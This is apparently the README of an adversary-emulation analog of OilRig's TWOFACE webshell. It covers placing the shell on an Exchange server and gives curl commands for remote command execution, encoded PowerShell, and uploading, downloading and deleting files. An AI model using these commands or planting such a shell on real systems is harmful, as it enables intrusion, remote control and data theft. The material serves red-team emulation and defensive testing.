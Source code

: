 # TWOFACE WebShell Analog

## Setup
This file does not need to be compiled - it is a self contained (i.e., no code-behind file) C# application in
aspx format. However, the default `web.config` file for the IIS site may require modifications, specifically
to add the following line under the `<assemblies>` tag:

`<add assembly="Microsoft.Exchange.Diagnostics, Version=15.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35" />`

For this scenario, OilRig has placed this webshell under `C:\Program Files\Microsoft\Exchange Server\V15\ClientAccess\exchweb\ews`
using various file names (for our purposes, `contact.aspx`)<sup>[1](https://unit42.paloaltonetworks.com/unit42-twoface-webshell-persistent-access-point-lateral-movement/)</sup>.

Default access is limited to Windows Authentication, so requests made to the page will need valid credentials for an authorized user.

## Execution with the Shell
All execution takes place via HTTP POST<sup>[1](https://unit42.paloaltonetworks.com/unit42-twoface-webshell-persistent-access-point-lateral-movement/)</sup>. If a GET request is sent, the C# will not execute and the visitor will be given a fake
error page saying the resource cannot be found on the server. Responses to actions taken with the shell will be provided at the
end of the returned page under a `<pre>` tag. If you are using PowerShell instead of cUrl to issue the request, you will need
to select and expand the Content element of the response.

If Windows Authenticiation is used, cUrl commands must contain additional flags to allow for successful negotiation:
`--http1.1` and `--ntlm`. HTTPV2 does not support NTLM authentication.

### Command Execution
Command execution requires two POST parameters<sup>[1](https://unit42.paloaltonetworks.com/unit42-twoface-webshell-persistent-access-point-lateral-movement/)</sup>: 
* `pro` - the process to use for execution (cmd.exe or powershell.exe)
* `cmd` - The command to execute

Commands **are not** URL encoded per the CTI. For complex commands, consider using Base64 and encoded PowerShell. Please note:
'+' is a valid Base64 character and may be converted to a space in transit.

Examples:

```
CMD:
curl --http1.1 --ntlm -u 'domain\user:password' -k -X POST --data "pro=cmd.exe" --data "cmd=whoami" .../EWS/contact.aspx

PowerShell
curl --http1.1 --ntlm -u 'domain\user:password' -k -X POST --data "pro=powershell.exe" --data "cmd=Get-Childitem -Path 'c:\users\'" .../EWS/contact.aspx
curl --http1.1 --ntlm -u 'domain\user:password' -k -X POST --data "pro=powershell.exe" --data "cmd=-e dwBoAG8AYQBtAGkA" .../EWS/contact.aspx
```

### File Actions
The webshell supports two different sets of file actions:
* Upload file to the %TEMP% directory
* Upload file to arbitrary path
* Download file from arbitrary path
* Delete file (from %TEMP% by default, or arbitrary path if supplied)

#### %TEMP% File Upload
File uploads to %TEMP% (`C:\Windows\Temp` by default) require two parameters<sup>[1](https://unit42.paloaltonetworks.com/unit42-twoface-webshell-persistent-access-point-lateral-movement/)</sup>:
* `upd` - the file name to use on the victim
* `upb` - The Base64-encoded content of the file (note: unlike encoded commands above, we have modified this command to replace 
spaces with '+' signs to allow for binary file uploads)

Example:
```
curl --http1.1 --ntlm -u 'domain\user:password' -k -X POST --data "upd=file.ext" --data "upb=$(base64 file.ext)" .../EWS/contact.aspx
```

#### Arbitrary Path File Upload
This form up upload requires POST Form data and more parameters<sup>[1](https://unit42.paloaltonetworks.com/unit42-twoface-webshell-persistent-access-point-lateral-movement/)</sup>:
* `upl` - the *POST form field* that contains the file data to write to disk
* `sav` - the path in which to save the file
* `vir` - boolean value to specify if this is a virtual path or physical (default)
* `nen` - the file name on the *victim* (defaults to the uploaded file name)
* \[arbitrary\] - a field containing the file information. **NAME MUST MATCH THE VALUE GIVEN IN upl**

Example:
```
curl --http1.1 --ntlm -u 'domain\user:password' -k -X POST -F "upl=f1" -F 'sav=C:\Users\Public\' -F "vir=false" -F "nen=file.ext" -F 'f1=@file.ext' .../EWS/contact.aspx
```

#### File Download
Downloads only require a single field: `don` - the path to the file<sup>[1](https://unit42.paloaltonetworks.com/unit42-twoface-webshell-persistent-access-point-lateral-movement/)</sup>

Example:
```
curl --http1.1 --ntlm -u 'domain\user:password' -k -X POST -k -X POST -o file.ext --data 'don=c:\windows\temp\file.ext' .../EWS/contact.aspx
```

#### File Delete
File deletes only require a single parameter: `del` - the name of the file to delete<sup>[1](https://unit42.paloaltonetworks.com/unit42-twoface-webshell-persistent-access-point-lateral-movement/)</sup>

If no path is supplied, %TEMP% will be used. Otherwise, specify path\\to\\file.ext

Examples:
```
Deletes from %TEMP%:
curl --http1.1 --ntlm -u 'domain\user:password' -k -X POST --data 'del=file.ext' .../EWS/contact.aspx

Deletes from path:
curl --http1.1 --ntlm -u 'domain\user:password' -k -X POST --data 'del=c:\users\public\file.ext' .../EWS/contact.aspx
```

## Testing
A shell script has been provided to exercise each of the options using cUrl. The user will be prompted for a few
details on where to send the requests and any authentication information (Windows Authentication only). Ensure
the user running the script has write access to the directory it is being run from as a few test files will be made.

`./twoface_tests.sh`

## CTI
[1] [Unit 42 - TwoFace Webshell: Persistent Access Point for Lateral Movement](https://unit42.paloaltonetworks.com/unit42-twoface-webshell-persistent-access-point-lateral-movement/)
